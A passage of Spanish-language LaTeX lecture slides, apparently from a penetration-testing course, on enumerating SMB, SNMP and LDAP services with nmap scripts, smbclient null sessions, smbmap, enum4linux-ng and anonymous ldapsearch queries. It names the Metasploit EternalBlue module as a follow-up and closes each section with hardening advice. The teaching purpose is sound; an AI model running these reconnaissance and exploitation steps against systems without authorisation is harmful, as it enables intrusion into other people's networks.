\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl012_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\small
  \begin{itemize}

  \item Ejemplos:
  \begin{itemize}
  \item \cmd{nmap -p 445 -{}-script smb-enum-shares,smb-enum-users,smb-os-discovery <target>}
  \item \cmd{nmap -p 445 -{}-script smb-vuln* <target>} (detecta EternalBlue, MS17-010...)
  \item \href{https://www.samba.org/samba/docs/current/man-html/smbclient.1.html}{smbclient}: explorar shares:
    \begin{itemize}
    \item \cmd{smbclient -L //<target> -N} (listar shares sin autenticación)
    \item \cmd{smbclient //<target>/share -U usuario}
    \item SMB null session en Windows antiguo: -N sin credenciales
    \end{itemize}
  \item La enumeración de recursos compartidos es probablemente una de las partes más importantes. Puedes descubrir:
    \begin{itemize}
    \item Shares administrativos ocultos: ADMIN\$, C\$, IPC\$
    \item Shares de datos: Public, Documents, Software, Backups
    \item Y posteriormente comprobar qué permisos tiene el usuario con el que estás auditando
    \end{itemize}
  \item Otra alternativa es la herramienta \href{https://github.com/ShawnDEvans/smbmap}{smbmap}:
      \begin{itemize}

  \item \cmd{smbmap -H 192.168.1.17} (anónimo)
  \item \cmd{smbmap -H 192.168.1.17 -u raj -p 123} (autenticado)
  \item Muestra: share, tipo, comentario, permisos (READ/WRITE)
      \end{itemize}

  \item Para enumerar usuarios y grupos podemos usar la herramienta \href{https://github.com/cddmp/enum4linux-ng}{enum4linux-ng}, reescritura del clásico \href{https://github.com/CiscoCXSecurity/enum4linux}{enum4linux}
    \begin{itemize}
    \item \cmd{enum4linux-ng -U TARGET} (usuarios)
    \item \cmd{enum4linux-ng -G TARGET} (grupos)
    \item \cmd{enum4linux-ng -A <target>} (usuarios, grupos, shares, política de contraseñas)
    \item También tenemos las herramientas rpcclient y \href{https://github.com/Pennyw0rth/NetExec}{netexec} (antes CrackMapExec, se verá en profundidad más adelante)
    \end{itemize}


  \end{itemize}

\framebreak
\begin{columns}[c]
  \begin{column}{0.55\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl100_1.png}
    \end{center}
  \end{column}
  \begin{column}{0.43\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/sl101_1.png}
    \end{center}
  \end{column}
\end{columns}



\end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\small
  \begin{itemize}
  \item SMB: Identificar hostname y OS del objetivo
  \item Explotación:
    \begin{itemize}
  \item \href{http://www.unixwiz.net/tools/nbtscan.html}{nbtscan} --- NetBIOS name scanner: \cmd{nbtscan 192.168.1.17} (Muestra: IP, hostname NetBIOS, usuario logado, MAC)
  \item \href{https://learn.microsoft.com/windows-server/administration/windows-commands/nbtstat}{nbtstat} --- Windows: \cmd{nbtstat -A 192.168.1.17} (desde la víctima o atacante, muestra estadísticas NetBIOS sobre TCP/IP; tabla de nombres)
  \item \cmd{ping -a 192.168.1.17} (Devuelve el hostname si hay resolución DNS/NetBIOS)
  \item \cmd{nmap -p 445 -{}-script smb-os-discovery 192.168.1.17} (Obtiene: OS, computername, dominio, workgroup, hora)
  \item SMBv1 expone más información en os-discovery que SMBv2
  \end{itemize}
  \end{itemize}
  \begin{columns}[c]
    \begin{column}{0.45\textwidth}
      \begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/1.png}
      \end{center}
    \end{column}
    \begin{column}{0.53\textwidth}
      \begin{center}
\includegraphics[width=\textwidth,height=0.85\textheight,keepaspectratio]{img/2.png}
      \end{center}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\small
  \begin{itemize}
  \item Detección de vulnerabilidades: smb-vuln NSE
  \begin{itemize}
  \item \cmd{nmap -p 445 -{}-script smb-vuln* 192.168.1.17}
  \item smb-vuln-ms17-010 $\rightarrow$ EternalBlue / WannaCry
  \item smb-vuln-ms08-067 $\rightarrow$ Conficker
  \item smb-vuln-ms10-054 $\rightarrow$ DoS en SMBv2
  \item smb-vuln-cve2009-3103 $\rightarrow$ Windows Vista SMBv2
  \item Un VULNERABLE en ms17-010 $\rightarrow$ exploit directo con Metasploit: exploit/windows/smb/ms17\_010\_eternalblue
  \end{itemize}

\end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{SMB}
\small
  \begin{itemize}
  \item MITRE ATT\&CK: técnicas relevantes en SMB
    \begin{itemize}

  \item T1110 --- Brute Force
  \item T1110.001 --- Password Guessing
  \item T1110.003 --- Password Spraying
  \item T1021.002 --- Remote Services: SMB/Windows Admin Shares
  \item T1083 --- File and Directory Discovery
  \item T1135 --- Network Share Discovery
 
    \end{itemize}

  \item Defensa en profundidad
    \begin{itemize}

  \item Deshabilitar SMBv1 (vulnerable a EternalBlue)
  \item Bloqueo de cuenta tras N intentos fallidos
  \item Monitorizar Event ID 4625 (fallo auth) y 4768
  \item Segmentar SMB: sólo hosts necesarios en puerto 445
  \item Requerir firma SMB (SMB Signing) para prevenir relay
  \item Tarpit: ralentizar respuestas a IPs sospechosas
  \item SMB expuesto a Internet = alto riesgo (WannaCry, NotPetya)
    \end{itemize}

  \end{itemize}
\end{frame}

% ====================================================================
% 161-162/UDP --- SNMP
% ====================================================================

\begin{frame}[allowframebreaks]{SNMP (Simple Network Management Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Gestión de red. Común en routers, switches, impresoras,\dots{}
  \item Puertos: 161/UDP y 162/UDP
  \item Vulnerabilidad: ``Community Strings'' por defecto
  \item Permite obtener gran cantidad de información del equipo e incluso administrar el dispositivo.
  \item Explotación:
    \begin{itemize}
    \item \href{https://tools.kali.org/information-gathering/snmp-check}{snmp-check} [IP]
    \item \cmd{nmap -sU -p161,162 [IP] -sC}
    \item \href{https://gitlab.com/kalilinux/packages/snmpenum}{snmpenum}
    \end{itemize}
  \end{itemize}
\end{frame}

% ====================================================================
% 389/636 TCP --- LDAP
% ====================================================================

\begin{frame}[allowframebreaks]{LDAP}
\small
  \begin{itemize}
  \item Funcionalidad: Servicio de directorio (típico en Active Directory).
  \item Puertos: TCP/389 → LDAP; TCP/636 → LDAPS (LDAP sobre TLS); UDP/389 → algunas operaciones LDAP/CLDAP, especialmente relevantes en Active Directory
  \item Vulnerabilidad: Acceso a información sobre su estructura, dominios, usuarios, grupos, equipos y otros objetos del dominio.
  \item Explotación:
    \begin{itemize} 
      \item \cmd{nmap -{}-script ldap-rootdse,ldap-search -p389 <IP>}
      \item \href{https://www.openldap.org/software/man.cgi?query=ldapsearch}{ldapsearch}: \cmd{ldapsearch -x -H ldap://TARGET -s base -b "" namingContexts}
      \item \cmd{ldapsearch -x -H ldap://<IP> -b "dc=empresa,dc=local"}
      \item \cmd{ldapsearch -x -H ldap://TARGET -b "DC=empresa,DC=local" "(objectClass=user)" sAMAccountName} (Enumerar usuarios)
      \item \cmd{ldapsearch -x -H ldap://TARGET -b "DC=empresa,DC=local" "(objectClass=group)" cn} (Enumerar grupos)
      \item \cmd{ldapsearch -x -H ldap://TARGET -b "DC=empresa,DC=local" "(objectClass=computer)" cn} (Enumerar equipos)
      \item Null/anonymous bind $\rightarrow$ volcar usuarios, grupos y atributos (\href{https://github.com/ropnop/windapsearch}{windapsearch}, \href{https://github.com/dirkjanm/ldapdomaindump}{ldapdomaindump}). En apps: LDAP injection.
        \end{itemize}
  \item Hardening: LDAPS, deshabilitar anonymous bind, channel binding.
  \end{itemize}
\end{frame}

% ====================================================================
